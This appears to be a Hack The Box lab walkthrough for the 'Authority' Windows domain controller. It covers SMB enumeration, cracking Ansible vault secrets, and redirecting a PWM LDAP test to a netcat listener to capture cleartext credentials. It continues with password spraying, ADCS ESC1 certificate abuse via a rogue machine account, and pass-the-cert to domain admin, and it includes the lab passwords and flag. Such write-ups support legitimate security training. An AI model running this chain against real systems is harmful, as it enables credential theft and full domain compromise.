


# Authority
## Host file setup
```python
sudo nxc smb 10.129.229.56 --generate-hosts-file /etc/hosts                                             
[sudo] password for kali: 
SMB         10.129.229.56   445    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:None) (Null Auth:True)
```

## Enumeration
### Open ports
```python
nmap -p- --min-rate=2000 -sT authority.authority.htb
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-23 20:13 +0000
Nmap scan report for authority.authority.htb (10.129.229.56)
Host is up (0.014s latency).
rDNS record for 10.129.229.56: AUTHORITY.authority.htb
Not shown: 65507 closed tcp ports (conn-refused)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
8443/tcp  open  https-alt
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49671/tcp open  unknown
49674/tcp open  unknown
49675/tcp open  unknown
49679/tcp open  unknown
49682/tcp open  unknown
49691/tcp open  unknown
49702/tcp open  unknown
61399/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 19.91 seconds
```

### Nmap
```python
nmap -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,8443,9389 -A --min-rate=2000 -sT authority.authority.htb
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-23 20:14 +0000
Nmap scan report for authority.authority.htb (10.129.229.56)
Host is up (0.015s latency).
rDNS record for 10.129.229.56: AUTHORITY.authority.htb

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-03-24 00:15:00Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-03-24T00:15:53+00:00; +4h00m00s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
|_ssl-date: 2026-03-24T00:15:53+00:00; +4h00m00s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
|_ssl-date: 2026-03-24T00:15:53+00:00; +4h00m00s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-03-24T00:15:53+00:00; +4h00m00s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8443/tcp open  ssl/http      Apache Tomcat (language: en)
|_http-title: Site doesn't have a title (text/html;charset=ISO-8859-1).
| tls-alpn: 
|_  h2
| ssl-cert: Subject: commonName=172.16.2.118
| Not valid before: 2026-03-22T00:10:22
|_Not valid after:  2028-03-23T11:48:46
|_ssl-date: TLS randomness does not represent time
9389/tcp open  mc-nmf        .NET Message Framing
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 10|2019|2022|2012|2016 (96%)
OS CPE: cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows 10 1909 - 2004 (96%), Microsoft Windows Server 2019 (95%), Windows Server 2019 (92%), Microsoft Windows 10 1909 (92%), Microsoft Windows Server 2022 (92%), Microsoft Windows 10 1709 - 21H2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 10 20H2 (90%), Microsoft Windows 10 20H2 - 21H1 (90%), Microsoft Windows Server 2016 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: AUTHORITY; OS: Windows; CPE: cpe:/o:microsoft:windows
```
DC is running at +4h

## HTTP (80)
The landing page is a default IIS server

No subdomains

No vulnerabilities associated with the webserver

No hidden endpoints

## SMB (445)
Null auth enabled but not able to access shares or list users using it

### Guest access
```python
nxc smb authority.authority.htb -u 'Guest' -p ''       
SMB         10.129.229.56   445    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.229.56   445    AUTHORITY        [+] authority.htb\Guest: 
```
Guest account is enabled i can use this to enumerate
#### Shares
```python
nxc smb authority.authority.htb -u 'Guest' -p '' --shares
SMB         10.129.229.56   445    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.229.56   445    AUTHORITY        [+] authority.htb\Guest: 
SMB         10.129.229.56   445    AUTHORITY        [*] Enumerated shares
SMB         10.129.229.56   445    AUTHORITY        Share           Permissions     Remark
SMB         10.129.229.56   445    AUTHORITY        -----           -----------     ------
SMB         10.129.229.56   445    AUTHORITY        ADMIN$                          Remote Admin
SMB         10.129.229.56   445    AUTHORITY        C$                              Default share
SMB         10.129.229.56   445    AUTHORITY        Department Shares                 
SMB         10.129.229.56   445    AUTHORITY        Development     READ            
SMB         10.129.229.56   445    AUTHORITY        IPC$            READ            Remote IPC
SMB         10.129.229.56   445    AUTHORITY        NETLOGON                        Logon server share 
SMB         10.129.229.56   445    AUTHORITY        SYSVOL                          Logon server share
```
Read access on `Development`
#### Users
```python
nxc smb authority.authority.htb -u 'Guest' -p '' --rid-brute             
SMB         10.129.229.56   445    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.229.56   445    AUTHORITY        [+] authority.htb\Guest: 
SMB         10.129.229.56   445    AUTHORITY        498: HTB\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.229.56   445    AUTHORITY        500: HTB\Administrator (SidTypeUser)
SMB         10.129.229.56   445    AUTHORITY        501: HTB\Guest (SidTypeUser)
SMB         10.129.229.56   445    AUTHORITY        502: HTB\krbtgt (SidTypeUser)
SMB         10.129.229.56   445    AUTHORITY        512: HTB\Domain Admins (SidTypeGroup)
SMB         10.129.229.56   445    AUTHORITY        513: HTB\Domain Users (SidTypeGroup)
SMB         10.129.229.56   445    AUTHORITY        514: HTB\Domain Guests (SidTypeGroup)
SMB         10.129.229.56   445    AUTHORITY        515: HTB\Domain Computers (SidTypeGroup)
SMB         10.129.229.56   445    AUTHORITY        516: HTB\Domain Controllers (SidTypeGroup)
SMB         10.129.229.56   445    AUTHORITY        517: HTB\Cert Publishers (SidTypeAlias)
SMB         10.129.229.56   445    AUTHORITY        518: HTB\Schema Admins (SidTypeGroup)
SMB         10.129.229.56   445    AUTHORITY        519: HTB\Enterprise Admins (SidTypeGroup)
SMB         10.129.229.56   445    AUTHORITY        520: HTB\Group Policy Creator Owners (SidTypeGroup)
SMB         10.129.229.56   445    AUTHORITY        521: HTB\Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.229.56   445    AUTHORITY        522: HTB\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.129.229.56   445    AUTHORITY        525: HTB\Protected Users (SidTypeGroup)
SMB         10.129.229.56   445    AUTHORITY        526: HTB\Key Admins (SidTypeGroup)
SMB         10.129.229.56   445    AUTHORITY        527: HTB\Enterprise Key Admins (SidTypeGroup)
SMB         10.129.229.56   445    AUTHORITY        553: HTB\RAS and IAS Servers (SidTypeAlias)
SMB         10.129.229.56   445    AUTHORITY        571: HTB\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.129.229.56   445    AUTHORITY        572: HTB\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.129.229.56   445    AUTHORITY        1000: HTB\AUTHORITY$ (SidTypeUser)
SMB         10.129.229.56   445    AUTHORITY        1101: HTB\DnsAdmins (SidTypeAlias)
SMB         10.129.229.56   445    AUTHORITY        1102: HTB\DnsUpdateProxy (SidTypeGroup)
SMB         10.129.229.56   445    AUTHORITY        1601: HTB\svc_ldap (SidTypeUser)
```
Ill put the users in a user file

```python
Administrator
Guest
krbtgt
AUTHORITY$
svc_ldap
```
Not a lot of users in this domain

#### `Development` share
```python
smbclient //authority.authority.htb/Development -U 'Guest'%''
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Mar 17 13:20:38 2023
  ..                                  D        0  Fri Mar 17 13:20:38 2023
  Automation                          D        0  Fri Mar 17 13:20:40 2023

		5888511 blocks of size 4096. 1149242 blocks available
smb: \> cd Automation\
smb: \Automation\> ls
  .                                   D        0  Fri Mar 17 13:20:40 2023
  ..                                  D        0  Fri Mar 17 13:20:40 2023
  Ansible                             D        0  Fri Mar 17 13:20:50 2023

		5888511 blocks of size 4096. 1149119 blocks available
smb: \Automation\> cd Ansible\
smb: \Automation\Ansible\> ls
  .                                   D        0  Fri Mar 17 13:20:50 2023
  ..                                  D        0  Fri Mar 17 13:20:50 2023
  ADCS                                D        0  Fri Mar 17 13:20:48 2023
  LDAP                                D        0  Fri Mar 17 13:20:48 2023
  PWM                                 D        0  Fri Mar 17 13:20:48 2023
  SHARE                               D        0  Fri Mar 17 13:20:48 2023

		5888511 blocks of size 4096. 1147169 blocks available
smb: \Automation\Ansible\>
```
There is quite a lot in this share so i will download all of this with smbget

```python
cat main.yml 
---
pwm_run_dir: "{{ lookup('env', 'PWD') }}"

pwm_hostname: authority.htb.corp
pwm_http_port: "{{ http_port }}"
pwm_https_port: "{{ https_port }}"
pwm_https_enable: true

pwm_require_ssl: false

pwm_admin_login: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          32666534386435366537653136663731633138616264323230383566333966346662313161326239
          6134353663663462373265633832356663356239383039640a346431373431666433343434366139
          35653634376333666234613466396534343030656165396464323564373334616262613439343033
          6334326263326364380a653034313733326639323433626130343834663538326439636232306531
          3438

pwm_admin_password: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          31356338343963323063373435363261323563393235633365356134616261666433393263373736
          3335616263326464633832376261306131303337653964350a363663623132353136346631396662
          38656432323830393339336231373637303535613636646561653637386634613862316638353530
          3930356637306461350a316466663037303037653761323565343338653934646533663365363035
          6531

ldap_uri: ldap://127.0.0.1/
ldap_base_dn: "DC=authority,DC=htb"
ldap_admin_password: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          63303831303534303266356462373731393561313363313038376166336536666232626461653630
          3437333035366235613437373733316635313530326639330a643034623530623439616136363563
          34646237336164356438383034623462323531316333623135383134656263663266653938333334
          3238343230333633350a646664396565633037333431626163306531336336326665316430613566
          3764
```
Found what look like password hashes in `PWM/defaults/main.ylm`

##### Cracking the hashes
```python
cat pwm_admin_password.hash 
$ANSIBLE_VAULT;1.1;AES256
313563383439633230633734353632613235633932356333653561346162616664333932633737363335616263326464633832376261306131303337653964350a363663623132353136346631396662386564323238303933393362313736373035356136366465616536373866346138623166383535303930356637306461350a3164666630373030376537613235653433386539346465336633653630356531

cat pwn_admin_login.hash 
$ANSIBLE_VAULT;1.1;AES256
326665343864353665376531366637316331386162643232303835663339663466623131613262396134353663663462373265633832356663356239383039640a346431373431666433343434366139356536343763336662346134663965343430306561653964643235643733346162626134393430336334326263326364380a6530343137333266393234336261303438346635383264396362323065313438

cat ldap_admin_password.hash 
$ANSIBLE_VAULT;1.1;AES256
633038313035343032663564623737313935613133633130383761663365366662326264616536303437333035366235613437373733316635313530326639330a643034623530623439616136363563346462373361643564383830346234623235313163336231353831346562636632666539383333343238343230333633350a6466643965656330373334316261633065313363363266653164306135663764
```
Now the hashes are formatted for ansible2john

```python
ansible2john pwm_admin_password.hash 
pwm_admin_password.hash:$ansible$0*0*15c849c20c74562a25c925c3e5a4abafd392c77635abc2ddc827ba0a1037e9d5*1dff07007e7a25e438e94de3f3e605e1*66cb125164f19fb8ed22809393b1767055a66deae678f4a8b1f8550905f70da5

ansible2john pwn_admin_login.hash 
pwn_admin_login.hash:$ansible$0*0*2fe48d56e7e16f71c18abd22085f39f4fb11a2b9a456cf4b72ec825fc5b9809d*e041732f9243ba0484f582d9cb20e148*4d1741fd34446a95e647c3fb4a4f9e4400eae9dd25d734abba49403c42bc2cd8

ansible2john ldap_admin_password.hash 
ldap_admin_password.hash:$ansible$0*0*c08105402f5db77195a13c1087af3e6fb2bdae60473056b5a477731f51502f93*dfd9eec07341bac0e13c62fe1d0a5f7d*d04b50b49aa665c4db73ad5d8804b4b2511c3b15814ebcf2fe98334284203635
```
Now they are ready to be cracked

```python
cat hashes.txt 
pwm_admin_password.hash:$ansible$0*0*15c849c20c74562a25c925c3e5a4abafd392c77635abc2ddc827ba0a1037e9d5*1dff07007e7a25e438e94de3f3e605e1*66cb125164f19fb8ed22809393b1767055a66deae678f4a8b1f8550905f70da5
pwn_admin_login.hash:$ansible$0*0*2fe48d56e7e16f71c18abd22085f39f4fb11a2b9a456cf4b72ec825fc5b9809d*e041732f9243ba0484f582d9cb20e148*4d1741fd34446a95e647c3fb4a4f9e4400eae9dd25d734abba49403c42bc2cd8
ldap_admin_password.hash:$ansible$0*0*c08105402f5db77195a13c1087af3e6fb2bdae60473056b5a477731f51502f93*dfd9eec07341bac0e13c62fe1d0a5f7d*d04b50b49aa665c4db73ad5d8804b4b2511c3b15814ebcf2fe98334284203635
```
Now ill crack them

Hashcat decrpyted all the hashes and they all had the same password `!@#$%^&*` so i can use this as the vault password with ansible-core

```python
cat ldap_admin_password.hash | ansible-vault decrypt
Vault password: 
Decryption successful
DevT3st@123

cat pwm_admin_password.hash | ansible-vault decrypt 
Vault password: 
Decryption successful
pWm_@dm!N_!23

cat pwn_admin_login.hash | ansible-vault decrypt                      
Vault password: 
Decryption successful
svc_pwm
```
Found three passwords

```python
DevT3st@123
pWm_@dm!N_!23
svc_pwm
```
Now would be a good time to spray the users ive got

None of these creds work on any of the users

The creds also dont work on the website on port 8433

## Access to configuration manager and editor
The password `pWm_@dm!N_!23` works to get access to the config


As seen from this image the password at the bottom is stored but not accessible but it may be possible to add a connection back to my machine and retrieve the credentials


Ive added my ip address and port of my listener

Ive made sure to use ldap and not ldaps

```python
nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.10.14.90] from (UNKNOWN) [10.129.229.56] 64257
0Y`T;CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb�lDaP_1n_th3_cle4r!
```
After clicking test ldap profile i got a connection with cleartext creds

```python
lDaP_1n_th3_cle4r!
```
Ill spray this password against my user list


## Password spray leads to service account compromise
```python
nxc smb authority.authority.htb -u users.txt -p 'lDaP_1n_th3_cle4r!' --continue-on-success
SMB         10.129.229.56   445    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.229.56   445    AUTHORITY        [-] authority.htb\Administrator:lDaP_1n_th3_cle4r! STATUS_LOGON_FAILURE
SMB         10.129.229.56   445    AUTHORITY        [-] authority.htb\Guest:lDaP_1n_th3_cle4r! STATUS_LOGON_FAILURE 
SMB         10.129.229.56   445    AUTHORITY        [-] authority.htb\krbtgt:lDaP_1n_th3_cle4r! STATUS_LOGON_FAILURE
SMB         10.129.229.56   445    AUTHORITY        [-] authority.htb\AUTHORITY$:lDaP_1n_th3_cle4r! STATUS_LOGON_FAILURE
SMB         10.129.229.56   445    AUTHORITY        [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r!
```
I have compromised `svc_ldap`

```python
nxc smb authority.authority.htb -u svc_ldap -p 'lDaP_1n_th3_cle4r!' --shares
SMB         10.129.229.56   445    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.229.56   445    AUTHORITY        [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r! 
SMB         10.129.229.56   445    AUTHORITY        [*] Enumerated shares
SMB         10.129.229.56   445    AUTHORITY        Share           Permissions     Remark
SMB         10.129.229.56   445    AUTHORITY        -----           -----------     ------
SMB         10.129.229.56   445    AUTHORITY        ADMIN$                          Remote Admin
SMB         10.129.229.56   445    AUTHORITY        C$                              Default share
SMB         10.129.229.56   445    AUTHORITY        Department Shares READ            
SMB         10.129.229.56   445    AUTHORITY        Development     READ            
SMB         10.129.229.56   445    AUTHORITY        IPC$            READ            Remote IPC
SMB         10.129.229.56   445    AUTHORITY        NETLOGON        READ            Logon server share 
SMB         10.129.229.56   445    AUTHORITY        SYSVOL          READ            Logon server share
```
This user has more access on the shares

There is nothing in the department share, also confirmed no write access

```python
nxc winrm authority.authority.htb -u svc_ldap -p 'lDaP_1n_th3_cle4r!'
WINRM       10.129.229.56   5985   AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 (name:AUTHORITY) (domain:authority.htb)
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from cryptography.hazmat.primitives.ciphers.algorithms in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.129.229.56   5985   AUTHORITY        [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r! (Pwn3d!)
```
Also got access over winrm

## Domain admin
### ADCS
```python
certipy-ad find -u svc_ldap@authority.htb -p 'lDaP_1n_th3_cle4r!' -dc-ip 10.129.229.56 -vulnerable -stdout
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 37 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 13 enabled certificate templates
[*] Finding issuance policies
[*] Found 21 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'AUTHORITY-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'AUTHORITY-CA'
[*] Checking web enrollment for CA 'AUTHORITY-CA' @ 'authority.authority.htb'
[!] Error checking web enrollment: [Errno 111] Connection refused
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : AUTHORITY-CA
    DNS Name                            : authority.authority.htb
    Certificate Subject                 : CN=AUTHORITY-CA, DC=authority, DC=htb
    Certificate Serial Number           : 2C4E1F3CA46BBDAF42A1DDE3EC33A6B4
    Certificate Validity Start          : 2023-04-24 01:46:26+00:00
    Certificate Validity End            : 2123-04-24 01:56:25+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : AUTHORITY.HTB\Administrators
      Access Rights
        ManageCa                        : AUTHORITY.HTB\Administrators
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        ManageCertificates              : AUTHORITY.HTB\Administrators
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        Enroll                          : AUTHORITY.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : CorpVPN
    Display Name                        : Corp VPN
    Certificate Authorities             : AUTHORITY-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : IncludeSymmetricAlgorithms
                                          PublishToDs
                                          AutoEnrollmentCheckUserDsCertificate
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Encrypting File System
                                          Secure Email
                                          Client Authentication
                                          Document Signing
                                          IP security IKE intermediate
                                          IP security use
                                          KDC Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 20 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2023-03-24T23:48:09+00:00
    Template Last Modified              : 2023-03-24T23:48:11+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : AUTHORITY.HTB\Domain Computers
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : AUTHORITY.HTB\Administrator
        Full Control Principals         : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        Write Owner Principals          : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        Write Dacl Principals           : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        Write Property Enroll           : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
    [+] User Enrollable Principals      : AUTHORITY.HTB\Domain Computers
    [!] Vulnerabilities
      ESC1                              : Enrollee supplies subject and template allows client authentication.
```

#### ESC1
As seen from the output above this is vulnerable to ESC1

```python
certipy-ad account -u 'svc_ldap@authority.htb' -p 'lDaP_1n_th3_cle4r!' -dc-ip '10.129.229.56' -user 'administrator' read
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Reading attributes for 'Administrator':
    cn                                  : Administrator
    distinguishedName                   : CN=Administrator,CN=Users,DC=authority,DC=htb
    name                                : Administrator
    objectSid                           : S-1-5-21-622327497-3269355298-2248959698-500
    sAMAccountName                      : Administrator
    userAccountControl                  : 66048
    whenCreated                         : 2022-08-09T22:53:10+00:00
    whenChanged                         : 2026-03-24T00:10:21+00:00
```
I needed the admins SID for the attack so here i am requesting it

Now after re-reading the output from certipy i see that the enrollment is domain computers not domain users, so ill have to create a computer account

```python
nxc ldap authority.authority.htb -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -M maq
LDAP        10.129.229.56   389    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 (name:AUTHORITY) (domain:authority.htb) (signing:Enforced) (channel binding:Never)
LDAP        10.129.229.56   389    AUTHORITY        [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r! 
MAQ         10.129.229.56   389    AUTHORITY        [*] Getting the MachineAccountQuota
MAQ         10.129.229.56   389    AUTHORITY        MachineAccountQuota: 10
```
The MAQ is set to 10 so i can make a computer acount

```python
addcomputer.py -method LDAPS -computer-name 'EVIL$' -computer-pass 'Password123!' -dc-host authority.authority.htb 'authority.htb/svc_ldap:lDaP_1n_th3_cle4r!'
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Successfully added machine account EVIL$ with password Password123!.
```
Now i have a machine account i can request a certificate

```python
certipy-ad req -u 'EVIL$' -p 'Password123!' -dc-ip '10.129.229.56' -target 'authority.authority.htb' -ca 'AUTHORITY-CA' -template 'CorpVPN' -upn 'administrator@authority.htb' -sid 'S-1-5-21-622327497-3269355298-2248959698-500' -key-size 4096 
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 7
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@authority.htb'
[*] Certificate object SID is 'S-1-5-21-622327497-3269355298-2248959698-500'
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```
Now i have the certificate i can authenticate 

For some reason i cant get the Administrator NTLM hash like usual, so ill have to improvise

Ill try this with a pass-the-cert attack

```python
certipy-ad cert -pfx administrator.pfx -nocert -out administrator.key
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Data written to 'administrator.key'
[*] Writing private key to 'administrator.key'
```

```python
certipy-ad cert -pfx administrator.pfx -nokey -out administrator.crt 
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Data written to 'administrator.crt'
[*] Writing certificate to 'administrator.crt'
```
I need both of these separately to perform this

https://github.com/AlmondOffSec/PassTheCert

```python
python3 passthecert.py -action ldap-shell -crt ../../administrator.crt -key ../../administrator.key -domain authority.htb -dc-ip 10.129.229.56
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands

# whoami
u:HTB\Administrator
```
I can get a more stable shell by using some built in commands

```python
# add_user_to_group svc_ldap Administrators
Adding user: svc_ldap to group Administrators result: OK
```
Now when i reconnect via winrm i should get admin rights

```python
evil-winrm -i authority.authority.htb -u svc_ldap -p 'lDaP_1n_th3_cle4r!'
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> cd ../../Administrator
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
||3db96fde543982f0dc45612226ee38e3||
